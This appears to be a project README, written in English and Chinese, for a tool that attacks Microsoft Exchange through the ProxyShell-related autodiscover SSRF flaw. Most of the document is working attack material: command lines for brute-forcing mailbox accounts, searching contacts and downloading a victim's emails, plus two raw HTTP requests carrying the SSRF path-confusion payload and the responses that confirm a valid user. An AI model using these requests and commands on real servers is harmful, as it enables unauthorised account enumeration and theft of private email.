

# Some Attacks of Exchange SSRF

# This project is heavily replicated in ProxyShell, NtlmRelayToEWS

https://mp.weixin.qq.com/s/GFcEKA48bPWsezNdVcrWag

## Brute Account 爆破可能存在的用户

file with emails 需要尝试的邮箱文件：

/tmp/emails.txt：

```
admin@exchange.com
test@exchange.com
jumbo@exchange.com
ceshi@exchange.com
support@exchange.com
```

run 运行程序：
```
python Exchange_SSRF_Attacks.py --target mail.exchange.com --action Brute --file /tmp/emails.txt
```

result 结果：

```
admin@exchange.com valid
support@exchange.com valid
```




爆破用户的几个接口 一：

```
POST /autodiscover/autodiscover.json?a=a@edu.edu/ews/exchange.asmx HTTP/1.1
Host: mail.exchange.com
User-Agent: Python PSRP Client
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Type: text/xml
Cookie: Email=autodiscover/autodiscover.json?a=a@edu.edu
Content-Length: 776

<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" 
xmlns:m="http://schemas.microsoft.com/exchange/services/2006/messages" 
xmlns:t="http://schemas.microsoft.com/exchange/services/2006/types" 
xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
    <soap:Body>
        <m:GetFolder>
            <m:FolderShape>
                <t:BaseShape>Default</t:BaseShape>
            </m:FolderShape>
            <m:FolderIds>
                <t:DistinguishedFolderId Id="inbox">
                    <t:Mailbox>
                        <t:EmailAddress>admin@exchange.com</t:EmailAddress>
                    </t:Mailbox>
                </t:DistinguishedFolderId>
            </m:FolderIds>
        </m:GetFolder>
    </soap:Body>
</soap:Envelope>
```

用户存在会提示：

```
Access is denied. Check credentials and try again., 
```


爆破用户的几个接口 二：

```
POST /autodiscover/autodiscover.json?a=a@edu.edu/autodiscover/autodiscover.xml?=&Email=autodiscover/autodiscover.json?a=a@edu.edu HTTP/1.1
Host: mail.exchange.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.131 Safari/537.36.
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Type: text/xml
Content-Length: 369

<Autodiscover xmlns="http://schemas.microsoft.com/exchange/autodiscover/outlook/requestschema/2006">
        <Request>
          <EMailAddress>admssin@exchange.com</EMailAddress>
          <AcceptableResponseSchema>http://schemas.microsoft.com/exchange/autodiscover/outlook/responseschema/2006a</AcceptableResponseSchema>
        </Request>
    </Autodiscover>
    
```

用户不存在会提示：

```
The email address can't be found.
```


## Search Contacts

run 运行程序：

```
python Exchange_SSRF_Attacks.py --target mail.exchange.com --action Search --email validuser@exchange.com --keyword test
```

result 结果：

```
Board.Test@exchange.com
LTSTest@exchange.com
```

## Download user's emails

run 运行程序：
```
python Exchange_SSRF_Attacks.py --target mail.exchange.com --action Download --email userwantdown@exchange.com
```
result 结果：

```
[+] Item [output/item-0.eml] saved successfully
```


